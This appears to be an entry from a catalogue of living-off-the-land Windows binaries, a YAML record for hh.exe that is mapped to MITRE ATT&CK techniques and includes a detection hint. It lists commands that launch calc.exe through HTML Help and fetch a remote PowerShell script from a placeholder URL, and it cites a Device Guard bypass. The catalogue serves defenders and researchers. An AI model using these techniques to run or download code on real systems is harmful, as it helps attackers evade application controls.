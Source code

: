 ```yaml
---
name: Hh.exe
description: Binary used for processing chm files in Windows
functions:
  execute:
    - description: Executes calc.exe with HTML Help.
      code: HH.exe c:\windows\system32\calc.exe
      mitreid: T1216
      mitrelink: https://attack.mitre.org/wiki/Technique/T1216
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Execute process with HH.exe
  download:
    - description: Open the target PowerShell script with HTML Help.
      code: HH.exe http://some.url/script.ps1
      mitreid: T1105
      mitrelink: https://attack.mitre.org/wiki/Technique/T1105
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Download files from url
resources:
    - resource: https://oddvar.moe/2017/08/13/bypassing-device-guard-umci-using-chm-cve-2017-8625/
fullpath:
    - path: C:\Windows\System32\hh.exe
    - path: C:\Windows\SysWOW64\hh.exe
detection:
  - IOC: hh.exe should normally not be in use on a normal workstation
acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

